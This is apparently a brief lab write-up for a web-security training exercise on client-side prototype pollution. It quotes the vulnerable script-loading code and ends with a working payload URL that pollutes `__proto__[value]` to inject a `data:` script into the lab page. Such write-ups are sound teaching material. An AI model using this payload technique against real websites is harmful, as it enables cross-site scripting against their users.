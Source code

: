 # Lab: Client-side prototype pollution via browser APIs
First, I injected `&__proto__[foo]=bar` into the url and observed that `Object.prototype` now includes a foo property.
Looking at the code, I noticed 
```js
let config = {params: deparam(new URL(location).searchParams.toString()), transport_url: false};
Object.defineProperty(config, 'transport_url', {configurable: false, writable: false});
if(config.transport_url) {
    let script = document.createElement('script');
    script.src = config.transport_url;
    document.body.appendChild(script);
    }
```
Here, we can set prototype.value to set a default value for transport url.

Hherefore, final payload: `https://0a1c009304b1e614806bef8c00bd00c5.web-security-academy.net/?search=test123&__proto__[transport_url]=data:,alert(1)&__proto__[value]=data:,alert(1)`
